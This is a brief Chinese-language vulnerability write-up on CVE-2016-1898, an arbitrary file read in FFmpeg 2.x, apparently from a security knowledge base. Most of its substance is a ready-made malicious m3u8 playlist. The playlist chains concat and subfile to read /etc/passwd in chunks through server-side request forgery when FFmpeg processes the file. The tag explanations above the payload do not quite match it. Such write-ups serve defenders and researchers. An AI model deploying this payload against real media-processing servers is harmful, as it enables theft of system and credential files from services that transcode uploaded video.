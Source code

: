 ```yaml
---
title: （CVE-2016-1898）Ffmpeg 任意文件读取漏洞
id: zhfly2939
---
```


# （CVE-2016-1898）Ffmpeg 任意文件读取漏洞

## 一、漏洞简介

CVE-2016-1898可以读取文件任意行

*   #EXTM3U 标签是m3u8的文件头，开头必须要这一行
*   #EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
*   #EXT-X-VERSION:2 该标签可有可无
*   #EXTINF:6, 表示该一段TS流文件的长度
*   #EXT-X-ENDLIST 这个相当于文件结束符

## 二、漏洞影响

FFmpeg 2.x

## 三、复现过程

FFmpeg 2.x版本允许攻击者通过服务器端请求伪造(SSRF：Server-Side Request Forgery) 恶意远程窃取服务器端本地文件，由于ffmpeg的hls没有进行对file域协议进行有效限制，导致攻击者可通过构造hls切片索引文件以及ffmpeg对subfile的支持(https://www.0-sec.org/ffmpeg-protocols.html#subfile )来恶意远程窃取服务器端本地文件/etc/passwd，所构造的恶意视频文件如下所示：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://localhost/header.m3u8|subfile,,start,0,end,64,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,64,end,128,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,128,end,256,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,256,end,512,,:///etc/passwd
#EXT-X-ENDLIST 
```
